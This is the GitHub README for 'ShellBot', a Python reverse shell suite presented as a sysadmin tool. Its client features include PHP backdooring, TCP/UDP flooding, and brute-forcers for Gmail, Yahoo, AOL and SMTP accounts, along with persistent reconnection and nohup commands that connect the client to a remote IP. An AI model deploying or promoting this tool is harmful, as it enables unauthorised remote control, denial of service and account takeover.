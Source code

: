 # ShellBot

[![FOSSA Status](https://app.fossa.com/api/projects/git%2Bgithub.com%2Fsayak-brm%2FShellBot.svg?type=shield)](https://app.fossa.com/projects/git%2Bgithub.com%2Fsayak-brm%2FShellBot?ref=badge_shield)

##### An advanced reverse shell written in Python3.

---

ShellBot is a cross-platform Remote Shell Suite where the Server can be managed
by 1 Controller at a time.

A server can accept several clients at once, and relay a chosen client's shell
to the controller.

This makes it easy for an SysAdmin to manage several computers with minimal
setup in an internal network.

The ShellBot suite is designed in such a way that it will not stop till a
connection is achieved. All errors are handled internally and in case of a
crash, the program automatically restarts.

---

#### Features:

##### Server:

1. Can handle multiple connections all at once.
1. The Controller’s connection requires a plain text password, it’s not the best
   security, but at-least it is better than nothing. Will be improved on in
   future revisions.
1. Kicks the Controller after 5 mins. (As the Server only accepts 1 controller
   at a time). _TODO: Make it 5 minutes after inactivity._

##### Client:

1. Infected PHP Backdooring Function. *(Linux Only)*
1. TCP Flood.
1. UDP Flood.
1. Gmail Bruteforcer. (Workaround Gmail's SMTP login)
1. MS Live Bruteforcer.
1. Yahoo Bruteforcer.
1. AOL Bruteforce.
1. Custome SMTP Bruteforcer. If found, the password will be saved as
   "password.txt" on the client.
1. OTA Updating.
1. Hardened Shell: Handles No Output, Wrong, Interactive and Infinite commands
   will result in losing the shell.
1. Can handle multiple commands separated by semi-colon (;).
1. Never closes and is always trying to connect to the Server.
1. Can handle almost any non-interactive command properly.
1. Uses very less resources.
1. Can be packaged into executables with tools like pyInstaller.

##### Controller:

1. Handles `KeyboardInterrupts`, empty commands, etc. perfectly.
1. Easy user interface.

**Note:** When trying to start the client through SSH, Terminal or any other
interactive shell, it is advised to start the client in another process. This
can be done in Linux with `nohup`.

###### Example:

```sh
nohup python3 client.py 15.48.158.15 1567 > /dev/null &

nohup python3 client.py 15.48.158.15 1567 > /dev/null 2>&1 &
```

## License

[![FOSSA Status](https://app.fossa.com/api/projects/git%2Bgithub.com%2Fsayak-brm%2FShellBot.svg?type=large)](https://app.fossa.com/projects/git%2Bgithub.com%2Fsayak-brm%2FShellBot?ref=badge_large)
